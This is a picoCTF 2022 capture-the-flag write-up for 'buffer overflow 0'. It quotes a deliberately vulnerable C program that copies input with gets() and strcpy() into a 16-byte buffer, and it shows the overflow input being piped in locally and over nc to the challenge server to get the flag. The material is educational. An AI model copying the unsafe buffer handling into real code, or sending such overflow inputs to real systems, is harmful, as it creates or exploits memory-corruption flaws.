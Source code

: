 # buffer overflow 0

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Medium
Tags: picoCTF 2022, Binary Exploitation, gets
Author: ALEX FULTON / PALASH OSWAL

Description:

Smash the stack
Let's start off simple, can you overflow the correct buffer? 

The program is available here. You can view source here. And connect with it using:
nc saturn.picoctf.net 61481
 
Hints:
1. How can you trigger the flag to print?
2. If you try to do the math by hand, maybe try and add a few more characters. 
   Sometimes there are things you aren't expecting.
3. Run man gets and read the BUGS section. How many characters can the program really read?
```

Challenge link: [https://play.picoctf.org/practice/challenge/257](https://play.picoctf.org/practice/challenge/257)

## Solution

### Study the source code

The `main` function of the program look like this

```c
int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

This is a classic buffer overflow. The program sets up a signal handler catching `SIGSEGV` error conditions.  
SigSegV means a signal for memory access violation, essentially trying to read or write from/to a memory area  
that your process does not have access to. This is also known as a segmentation fault.

When this happens the code in the `sigsegv_handler` is executed and tries to fix the problem or at least  
graciously quit the program.

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

Conveniently, in this case the code prints the flag for us.

There is also a `vuln` function with a rather small buffer

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

If we [overflow this buffer](https://en.wikipedia.org/wiki/Buffer_overflow) with more data than it can handle, we might write to the return address of the function stored on the stack. If that memory address is illegal when the program tries to return, we will cause a segmentation fault.

### Try exploitation locally

Let's try to overflow the buffer locally first.

```bash
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ chmod +x vuln

┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ ./vuln
Please create 'flag.txt' in this directory with your own debugging flag.
```

Ah, that's right. We need a dummy flag for testing.

```bash
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ echo "picoCTF{Fake_Flag}" > flag.txt
                                          
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*20)" | ./vuln  
Input: picoCTF{Fake_Flag}
```

Success! We sent 20 bytes (slightly more than the buffer size of 16) and we got the flag.

### Connect to the server and get the flag

Finally, let's connect to the server and try to get the flag. If we don't succeed, we slightly increase the output until we do.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*20)" | nc saturn.picoctf.net 61481

Input:                             
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*25)" | nc saturn.picoctf.net 61481
Input:

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*30)" | nc saturn.picoctf.net 61481
Input: picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Buffer overflow - Wikipedia](https://en.wikipedia.org/wiki/Buffer_overflow)
- [C (programming language) - Wikipedia](https://en.wikipedia.org/wiki/C_(programming_language))
- [echo - Linux manual page](https://man7.org/linux/man-pages/man1/echo.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [python - Linux manual page](https://linux.die.net/man/1/python)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
